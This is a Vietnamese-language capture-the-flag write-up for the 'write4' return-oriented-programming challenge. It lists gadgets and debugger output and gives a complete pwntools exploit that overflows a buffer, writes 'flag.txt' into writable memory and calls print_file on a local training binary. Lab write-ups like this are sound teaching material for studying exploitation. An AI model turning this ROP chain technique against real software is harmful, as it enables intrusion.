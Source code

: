 # write4 - challenge 4

[binary file and my exploit code](https://github.com/Hjn4Pwn/Pwn/tree/main/ROP/chall4_write4)


```python
hjn4@LAPTOP-TEHHNDTG:/mnt/d/pwn_myself/ROP/chall4_write4$ file write4
write4: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=4cbaee0791e9daa7dcc909399291b57ffaf4ecbe, not stripped
```

Ok, thì với bài này đơn giản ta có hàm printfile(), tuy nhiên chuỗi flag.txt lại không có trong binary => ta phải tự ghi vào 

Để dễ hình dung thì như này, ta phải ghi được chuỗi ***flag.txt*** vào 1 cái địa chỉ nào đấy. Sao cho khi gọi *printfile()* thì rdi, tức là thanh ghi chứa tham số thứ nhất lúc này phải chứa *địa chỉ của chuỗi flag.txt*

Do đó điều ta cần làm bây giờ là phải tìm các gadget thỏa mãn phù hợp cho yêu cầu này:

```shell
0x0000000000400628 : mov qword ptr [r14], r15 ; ret
0x0000000000400690 : pop r14 ; pop r15 ; ret
0x0000000000400693 : pop rdi ; ret
0x00000000004004e6 : ret

```

Có lẽ tất cả đã đầy đủ.

lệnh mov ở trên sẽ mov giá trị tại thanh ghi *r15* vào địa chỉ mà thanh ghi *r14* trỏ đến. Tức là r14 = 0xabc, r15 = 0xFF, thì tại địa chỉ 0xabc này sẽ lưu giá trị 0xFF

Thì đầu tiên ta sẽ *pop* r14 chứa địa chỉ ta chỉ định để lưu chuỗi **"flag.txt"** và *pop* r15 chứa chuỗi **"flag.txt"**. Sau đó thì dùng lệnh *mov* để ghi chuỗi vào địa chỉ chỉ định 

Tiếp đến thì *pop rdi* như ta đã từng làm với các chall trước.

À mà ta cần tìm địa chỉ hàm *print_file()*, và xác định địa chỉ ghi chuỗi:

```shell
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x00000000004004d0  _init
0x0000000000400500  pwnme@plt
0x0000000000400510  print_file@plt
0x0000000000400520  _start
```

```python

pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
          0x400000           0x401000 r-xp     1000      0 /mnt/d/pwn_myself/ROP/chall4_write4/write4
          0x600000           0x601000 r--p     1000      0 /mnt/d/pwn_myself/ROP/chall4_write4/write4
          0x601000           0x602000 rw-p     1000   1000 /mnt/d/pwn_myself/ROP/chall4_write4/write4
    0x7ffff79d8000     0x7ffff7a00000 r--p    28000      0 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7a00000     0x7ffff7b95000 r-xp   195000  28000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7b95000     0x7ffff7bed000 r--p    58000 1bd000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7bed000     0x7ffff7bf1000 r--p     4000 214000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7bf1000     0x7ffff7bf3000 rw-p     2000 218000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7bf3000     0x7ffff7c00000 rw-p     d000      0 [anon_7ffff7bf3]
    0x7ffff7c00000     0x7ffff7c01000 r-xp     1000      0 /mnt/d/pwn_myself/ROP/chall4_write4/libwrite4.so
    0x7ffff7c01000     0x7ffff7e00000 ---p   1ff000   1000 /mnt/d/pwn_myself/ROP/chall4_write4/libwrite4.so
    0x7ffff7e00000     0x7ffff7e01000 r--p     1000      0 /mnt/d/pwn_myself/ROP/chall4_write4/libwrite4.so
    0x7ffff7e01000     0x7ffff7e02000 rw-p     1000   1000 /mnt/d/pwn_myself/ROP/chall4_write4/libwrite4.so
    0x7ffff7fb3000     0x7ffff7fb6000 rw-p     3000      0 [anon_7ffff7fb3]
    0x7ffff7fbc000     0x7ffff7fbe000 rw-p     2000      0 [anon_7ffff7fbc]
    0x7ffff7fbe000     0x7ffff7fc2000 r--p     4000      0 [vvar]
    0x7ffff7fc2000     0x7ffff7fc3000 r-xp     1000      0 [vdso]
    0x7ffff7fc3000     0x7ffff7fc5000 r--p     2000      0 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffff7fc5000     0x7ffff7fef000 r-xp    2a000   2000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffff7fef000     0x7ffff7ffa000 r--p     b000  2c000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffff7ffb000     0x7ffff7ffd000 r--p     2000  37000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffff7ffd000     0x7ffff7fff000 rw-p     2000  39000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffffffde000     0x7ffffffff000 rw-p    21000      0 [stack]

```
```python
pwndbg> x/100s 0x601000
0x601000:       ""
0x601001:       "\016`"
0x601004:       ""
0x601005:       ""
0x601006:       ""
0x601007:       ""
0x601008:       "\340\342\377\367\377\177"
0x60100f:       ""
0x601010:       "0\215\375\367\377\177"
0x601017:       ""
0x601018 <pwnme@got.plt>:       "\006\005@"
0x60101c <pwnme@got.plt+4>:     ""
0x60101d <pwnme@got.plt+5>:     ""
0x60101e <pwnme@got.plt+6>:     ""
0x60101f <pwnme@got.plt+7>:     ""
0x601020 <print_file@got.plt>:  "\026\005@"
0x601024 <print_file@got.plt+4>:        ""
0x601025 <print_file@got.plt+5>:        ""
0x601026 <print_file@got.plt+6>:        ""
0x601027 <print_file@got.plt+7>:        ""
0x601028:       ""
0x601029:       ""
0x60102a:       ""
0x60102b:       ""
0x60102c:       ""
0x60102d:       ""
0x60102e:       ""
0x60102f:       ""
0x601030:       ""
0x601031:       ""
0x601032:       ""
0x601033:       ""
0x601034:       ""
0x601035:       ""
0x601036:       ""
0x601037:       ""
0x601038 <completed.7698>:      ""
0x601039:       ""
0x60103a:       ""
0x60103b:       ""
0x60103c:       ""
0x60103d:       ""
0x60103e:       ""
0x60103f:       ""
0x601040:       ""
0x601041:       ""
0x601042:       ""
0x601043:       ""
0x601044:       ""
0x601045:       ""
0x601046:       ""
0x601047:       ""
0x601048:       ""
```

Để tránh việc ghi đè lên giá trị đã có sẵn 1 cách không mong muốn nên ta sẽ chọn địa chỉ **0x601040**

### Exploit

```python
from pwn import *

r = process("./write4")
#gdb.attach(r, api= True)

print_file = 0x0000000000400510
pop_rdi_ret = 0x0000000000400693
ret = 0x00000000004004e6
pop_r14_r15 = 0x0000000000400690
mov_r14add_r15 = 0x0000000000400628

r14_address_store_flag = 0x601040
r15_flag = b'flag.txt'


payload = b'A'*40 + p64(ret)
#r14 => address, r15 => flag
payload += p64(pop_r14_r15) + p64(r14_address_store_flag) + r15_flag
# r14 -> address -> r15 (flag)
payload += p64(mov_r14add_r15) 
# rdi = r14 = address string flag.txt
payload += p64(pop_rdi_ret)
payload += p64(r14_address_store_flag)

payload += p64(print_file)

r.sendline(payload)
r.interactive()

```

